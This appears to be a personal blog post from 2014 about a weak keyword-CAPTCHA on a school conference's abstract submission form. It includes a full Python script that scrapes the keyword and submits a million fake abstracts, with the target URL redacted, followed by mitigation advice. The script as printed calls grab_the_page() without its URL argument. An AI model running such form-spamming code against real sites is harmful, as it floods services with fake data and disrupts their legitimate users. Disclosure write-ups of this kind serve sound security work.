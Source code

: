 Title: Spamming a Submission System
Date: 2014-06-06 23:04
Tags: python, security
Summary: My school's paper submission system is/was vulnerable to spamming

A while back I noticed a gaping security hole in an Abstract submission system for a student conference being held at my school. Since it was local to my school and only its students this really was not a huge risk. However, all it takes is one malicious student, or someone just happening across the system, to ruin scheduling of the entire conference layout. 

The system has the user enter her name, email address, department she is from, her professor/advisor, and her talk's abstract. In order to validate that it is indeed a real request the system also has the word submit a keyword displayed at the bottom of the page. The keyword works like a CAPTCHA (or CRAPTCHA as I like to call them) except it is not as "strong."

I decided to play with the system and see if the keyword varied. After around ten page refreshes I noticed that it only used about seven different keywords, such as "cougar", "conference", and "spring." I then tried doing a fake submission and inspected the POST data. Everything looked exactly the same as what is displayed on the page, except that a unique number is assigned to each keyword and submitted in the POST. 

The keyword and its number were easily extracted from the page source. After extracting that data all that is required to submit is an abstract and author information. The fake information is easily generated from wordlists containing common first names and last names. 

The page can be fetched for each spam submission, or the page can be fetched once (to make it work a tad faster) and the keyword can be used for each submission. Unfortunately I was not allowed to test the attack code I wrote for fear of being kicked out of school right before finishing my degree. However it is a proof-of-concept and at least demonstrates how the attack would look. 

Below is the attack written in Python. I have removed the target URL as well as the actual post parameters for the keyword and its identifier for the sanity of the people who maintain the system. The system is offline now anyways, but I imagine it will not be fixed by the time it is deployed again next year. The code uses `BeautifulSoup` and `re` for determining the keyword information and the beautiful `requests` module for handling the HTTP requests. It is not beautiful but it demonstrates the concept. It is currently set to submit 1,000,000 fake abstracts. This would be so many fake abstracts that all of the real ones would be buried. The poor developers would have quite a slopfest to deal with. 

    import re
    from bs4 import BeautifulSoup
    import requests
    from random import randrange

    def get_the_secret(text):
        matches = re.findall(r'\"(.+?)\"', text)
        return ''.join(matches)

    def grab_the_page(url):
        r = requests.get(url)
        while r.status_code != 200:
            r = requests.get(url)
        return r.content

    def grab_the_word_key(content):
        soup = BeautifulSoup(content)
        word_key = soup.find_all('input', attrs={'name': 'word_key'})
        return str(int(word_key[0]['value']))

    def parse_the_page(content):
        soup = BeautifulSoup(content)
        labels = soup.find_all('label')
        for label in labels:
            if 'To prove you are a human type' in label.contents[0]:
                return get_the_secret(label.contents[0])

    if __name__ == '__main__':
        target = 'http://nomnomredacted.nom'
        c = grab_the_page()
        word_key = grab_the_word_key(c)
        word_value = parse_the_page(c)
        dictionary = open('Jargon', 'r')
        first_names = open('Given-Names', 'r')
        last_names = open('Family-Names', 'r')
        num_to_spam = 1000000
        degree_levels = [ 'Undergraduate', 'Masters', 'Doctorate' ]
        advisors_nums = [ '169', '171', 'g_127', 'g_129', 'g_132' ] # all valid cs teachers

        # sp4m that submission system!
        for i in range(num_to_spam):
            first_name = first_names.readline().strip()
            last_name = last_names.readline().strip()
            email = first_name+last_name+'@gmail.com'
            degree_level = degree_levels[randrange(0,len(degree_levels))]
            department = '2' # this is the code for computer science
            faculty_advisor = advisors_nums[randrange(0,len(advisors_nums))]
            abstract_title = dictionary.readline().strip()
            abstract = first_name+' '+last_name+' '+email+' '+degree_level+' '+department+' '+faculty_advisor+' '+abstract_title
            abstract += ' '+abstract
            data = { 'first_name': first_name, 
                    'last_name': last_name,
                    'email': email,
                    'degree_level': degree_level,
                    'department': department,
                    'faculty_advisor': faculty_advisor,
                    'abstract_title': abstract_title,
                    'abstract': abstract,
                    'submit': 'Submit',
                    'num': word_key,
                    'key': word_value
                    }
            requests.post(target, data=data)

        print 'Finished spamming the submission system'

Even a normal CAPTCHA would be better than the level of security in place on the system. However since students at the school are the only ones allowed to present at the conference, users should be required to login with their school credentials in order to submit. This way only a legitimate student could carry out the attack, but the attack would be tied to his name. 

While the risk of attack is low from students participating in the conference, there is still a risk. Security should still be a priority, especially with systems like these. If this attack were carried out the conference would more than likely be ruined. It would take a large amount of work for the developers to remove all of the spam abstracts without removing any legitimate ones. 
